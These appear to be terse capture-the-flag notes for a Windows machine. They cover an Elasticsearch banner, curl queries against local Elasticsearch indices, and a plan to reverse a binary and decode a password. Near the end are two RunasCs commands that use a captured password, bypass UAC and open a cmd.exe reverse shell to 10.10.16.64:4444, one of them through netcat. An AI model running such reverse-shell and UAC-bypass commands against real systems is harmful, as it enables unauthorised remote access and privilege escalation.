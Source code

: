 ```
  "name" : "NAPPER",
  "cluster_name" : "backupuser",
  "cluster_uuid" : "tWUZG4e8QpWIwT8HmKcBiw",
  "version" : {
    "number" : "8.8.0",
    "build_flavor" : "default",
    "build_type" : "zip",
    "build_hash" : "c01029875a091076ed42cdb3a41c10b1a9a5a20f",
    "build_date" : "2023-05-23T17:16:07.179039820Z",
    "build_snapshot" : false,
    "lucene_version" : "9.6.0",
    "minimum_wire_compatibility_version" : "7.17.0",
    "minimum_index_compatibility_version" : "7.0.0"
  },
  "tagline" : "You Know, for Search"
}


```
Reverse binary file a.exe

Getting the sid and blob from elastic:

curl -k -u "user:pass" -X GET "https://localhost:9200/seed/_search"
curl -k -u "user:pass" -X GET "https://localhost:9200/user-00001/_search".

Write a programme that will automatically retrieve parameters from elastic and decode the password: 
## Got Nothing works

```
.\RunasCs.exe backup ytkCAMAGNEfDiMAvFpdEVGyNzQotkczpxOstRvNT cmd.exe -r 10.10.16.64:4444 --bypass-uac

 runascs backup ytkCAMAGNEfDiMAvFpdEVGyNzQotkczpxOstRvNT "cmd.exe /c nc.exe 10.10.16.64 4444 -e cmd.exe" -t 8 --bypass-uac 
```
